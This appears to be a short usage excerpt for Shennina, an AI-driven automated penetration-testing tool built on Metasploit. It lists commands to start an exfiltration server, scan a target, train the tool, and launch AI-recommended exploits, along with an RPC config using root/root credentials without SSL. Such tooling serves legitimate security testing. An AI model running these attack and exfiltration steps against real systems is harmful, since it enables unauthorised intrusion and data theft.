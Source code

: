 # Shennina

Shell 1
# -------runs exfiltration server (separeted console)
$ cd ./exfiltration-server/
$ sudo ./run-server.sh

Shell 2
# ------runs msfconsole (separeted console)
./scripts/run-msfrpc.py

Shell 3
# ------runs shennina
./shennina.py --initialize-exploits-tree


#------ scanning phase------#
sudo ./shennina.py --lhost metasploit-ip --target target.local --service-scan-only

# ------------- training shennina ------------------#
sudo ./shennina.py --target 127.0.0.1 --lhost $target_IP --training-mode

# --------------- attacking with recommended exploit given by shennina AI -------------------#
sudo ./shennina.py --target 127.0.0.1 --lhost $target_IP --exploitation-mode


/config/msfrpg-config.json
{
  "password": "root",
  "user": "root",
  "host": "172.17.0.1",
  "port": 55553,
  "ssl": false
}

